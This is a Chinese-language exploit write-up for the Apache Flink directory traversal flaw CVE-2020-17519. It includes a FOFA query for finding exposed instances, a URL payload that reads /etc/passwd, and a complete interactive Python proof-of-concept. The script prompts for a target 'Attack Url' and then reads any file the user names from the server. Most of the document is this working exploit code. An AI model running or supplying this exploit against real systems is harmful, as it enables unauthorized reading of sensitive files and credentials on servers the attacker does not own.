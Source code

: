 # Apache Flink 目录遍历漏洞 CVE-2020-17519

## 漏洞描述

2021年01月06日，360CERT监测发现`Apache Flink`发布了`Apache Flink 目录穿越漏洞`的风险通告，漏洞编号为`CVE-2020-17518,CVE-2020-17519`，漏洞等级：`高危`，漏洞评分：`8.5`。

远程攻击者通过`REST API`目录遍历，可造成`文件读取/写入`的影响。

Apache Flink 1.11.0 中引入的一项更改（也在 1.11.1 和 1.11.2 中发布）允许攻击者通过 JobManager 进程的 REST 接口读取 JobManager 本地文件系统上的任何文件。

参考：

- https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801
- https://nvd.nist.gov/vuln/detail/CVE-2020-17519

## 漏洞影响

```
Apache Flink 1.11.0
Apache Flink 1.11.1
Apache Flink 1.11.2
```

## FOFA

```
app="Apache Flink"
```

## 环境搭建

Vulhub执行以下命令启动 Apache Flink jobmanager 1.11.2：

```
docker-compose up -d
```

Apache Flink 启动后，访问`http://your-ip:8081`查看主页。

![image-20220223182227651](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231822762.png)

## 漏洞复现

查看/etc/passwd：

```plain
http://xxx.xxx.xxx.xxx/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![image-20220223182245983](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231822055.png)

## 漏洞POC

```python
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Apache Flink   1.11.0-1.11.2                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-17519.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_name):
    file_name = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "root" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 /etc/passwd ，响应为:\n{}\033[0m".format(target_url, response.text))
        else :
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, file_name):
    file_name_re = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name_re)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "error" not in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 {} ，响应为:\n{}\033[0m".format(target_url, file_name, response.text))
        else :
            print("\033[31m[x] 目标文件{}读取失败\033[0m".format(file_name))

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    file_name = "/etc/passwd"
    POC_1(target_url, file_name)

    while True:
        file_name = input("\033[35mFile >>> \033[0m")
        if file_name == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, file_name)
```

![image-20220211111729412](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202111117492.png)


